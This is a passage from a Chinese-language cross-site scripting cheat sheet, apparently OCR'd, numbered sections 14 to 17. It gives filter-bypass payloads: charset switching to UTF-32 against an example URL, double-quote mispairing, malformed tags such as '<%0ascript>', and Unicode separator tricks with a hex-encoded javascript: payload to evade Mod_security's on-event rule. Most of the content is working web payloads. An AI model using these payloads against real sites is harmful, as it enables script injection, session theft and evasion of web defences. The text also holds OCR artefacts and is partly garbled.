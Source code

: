 ## 十四、字符集编码

> 
多见于IE中，要是能控制字符集编码，那就稳了
eg:
原始：
http://xxx.xxx.com/utf-32-1.php?charset=utf-8&amp;name=father
插入预期：
http://xxx.xxx.com/utf-32-1.php?charset=utf-8&amp;name=”&gt;&lt;img  src=x οnerrοr=prompt(0);&gt;
修改编码（这里改为了32）
http://xxx.xxx.com/utf-32-1.php?charset=utf-32&amp;name=%E2%88%80%E3%B8%80%E3%B0
%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80


---


## 十五、双引号配对

> 
通过在一个构造三个在一个标签里，另一个在其他位置
eg：<br/><br/> &lt;img"""&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;"&gt;
应该是前2个双引号为一对，第三个和后面那一个双引号是一对
但是第一个和第三被认为是一对了
相当于：&lt;img&gt;&lt;script&gt;alert('xss')&lt;/script&gt;"&amp;gt;


---


## 十六、语法漏洞

> 
RFC声明中，节点名称不能是空格，否则在js中不能运行
并且&lt;%, &lt;//, &lt;!,&lt;?可以被解析成&lt;
eg：
&lt;script&gt;alert(1);&lt;/script&gt;
构造：
&lt;%0ascript&gt;alert(1);&lt;/script&gt;
&lt;%0bscript&gt;alert(1);&lt;/script&gt;
……


---


## 十七、Unicode分隔符

> 
[on\w+\s*]规则过滤了所有on事件，可以使用fuzzing方法测试0×00到0xff验证有效性<br/><br/> x0b在Mod_security中已经被过滤，绕过的方法
&lt;a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\
x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'&gt;


---